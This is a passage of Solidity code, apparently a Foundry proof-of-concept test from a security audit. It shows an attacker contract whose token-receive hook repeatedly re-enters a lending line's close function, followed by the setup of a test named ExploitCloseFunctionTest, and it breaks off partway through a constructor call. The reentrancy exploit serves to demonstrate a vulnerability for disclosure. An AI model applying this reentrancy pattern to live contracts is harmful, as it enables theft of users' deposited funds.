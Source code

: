 ```
    function tokensReceived(
            address,
            address,
            uint256
        ) external {
        if (msg.sender != address(token)) return;
        if (!attackEnable) return;
        uint256 count_ = count;
        if (count_ >= ATTACK_COUNT) return;
        count = count_ + 1;
        bytes32 id = line.ids(0);
        (uint256 deposit,,,,,,) = line.credits(id);
        token.transfer(address(line), deposit);
        line.close(id);
    }

    function enableAttack() external {
        attackEnable = true;
    }
}


contract ExploitCloseFunctionTest is Test {
    uint256 constant ONE_YEAR = 365.25 days;
    uint256 constant ATTACK_COUNT = 10;
    Escrow escrow;
    Spigot spigot;
    RevenueTokenWithHook supportedToken1;
    RevenueToken supportedToken2;
    RevenueToken unsupportedToken;
    SimpleOracle oracle;
    SecuredLine line;
    uint mintAmount = 100 ether;
    uint MAX_INT = 115792089237316195423570985008687907853269984665640564039457584007913129639935;
    uint32 minCollateralRatio = 10000; // 100%
    uint128 dRate = 100;
    uint128 fRate = 1;
    uint ttl = ONE_YEAR;

    address borrower;
    address arbiter;
    address lender;

    function setUp() public {
        borrower = address(20);
        arbiter = address(this);
        supportedToken1 = new RevenueTokenWithHook();
        supportedToken2 = new RevenueToken();
        unsupportedToken = new RevenueToken();

        spigot = new Spigot(arbiter, borrower, borrower);
        oracle = new SimpleOracle(address(supportedToken1), address(supportedToken2));

        escrow = new Escrow(minCollateralRatio, address(oracle), arbiter, borrower);

        line = new SecuredLine(
          address(oracle),
          arbiter,
          borrower,
          payable(address(0)),
          address(spigot),
          address(escrow),
          ONE_YEAR,
```